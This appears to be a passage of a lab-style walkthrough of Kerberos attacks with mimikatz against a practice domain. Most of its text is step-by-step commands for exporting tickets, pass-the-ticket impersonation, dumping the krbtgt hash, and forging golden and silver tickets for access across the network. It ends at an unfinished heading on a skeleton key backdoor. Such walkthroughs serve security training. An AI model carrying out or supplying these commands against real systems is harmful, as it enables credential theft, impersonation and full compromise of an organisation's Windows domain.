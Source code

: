 
1.) `cd Downloads` - navigate to the directory mimikatz is in

2.) `mimikatz.exe` - run mimikatz

3.) `privilege::debug` - Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
4.) `sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

Pass the Ticket w/ Mimikatz

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

1.) `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket
2.) `klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

We will not be using mimikatz for the rest of the attack.

3.) You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.


# Golden/Silver Ticket Attack Overview 
1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - ensure this outputs [privilege '20' ok]

﻿3.) `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
﻿
﻿**Create a Golden/Silver Ticket -** 

﻿1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

**Use the Golden/Silver Ticket to access other machines -**

﻿1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.
2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.
# Kerberos Backdoors w/ mimikatz
Installing the Skeleton Key w/ mimikatz -
